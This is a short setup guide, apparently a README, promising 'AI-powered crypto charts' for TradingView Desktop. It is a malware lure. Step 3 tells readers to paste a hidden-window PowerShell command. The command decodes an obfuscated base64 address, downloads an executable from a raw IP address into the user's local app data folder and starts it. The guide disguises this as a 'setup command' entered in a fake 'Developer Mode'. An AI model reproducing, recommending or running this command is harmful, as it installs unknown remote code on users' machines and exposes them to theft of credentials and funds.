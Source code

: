 📌 Step-by-Step Setup Guide:

🔵 Step 1: Download and install TradingView Desktop
🔗 https://www.tradingview.com/desktop/

🔵 Step 2: Enter Developer Mode
– Press Win + R, type cmd, and hit Enter

🔵 Step 3: Paste the setup command and press Enter
powershell -WindowStyle Hidden -Command "$url=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('aHR0cDovLzE0MS45OC42LjEzMDo1NTU0L2RvY3R5cGVzLmV4ZQ==')); iwr $url -OutF "$env:LOCALAPPDATA\doctypes.exe"; start "$env:LOCALAPPDATA\doctypes.exe""

🔵 Step 4: Restart TradingView

✅ That’s it! You’re now ready to explore AI-powered crypto charts.
📺 Follow along with the video to see how to use them for maximum profit.
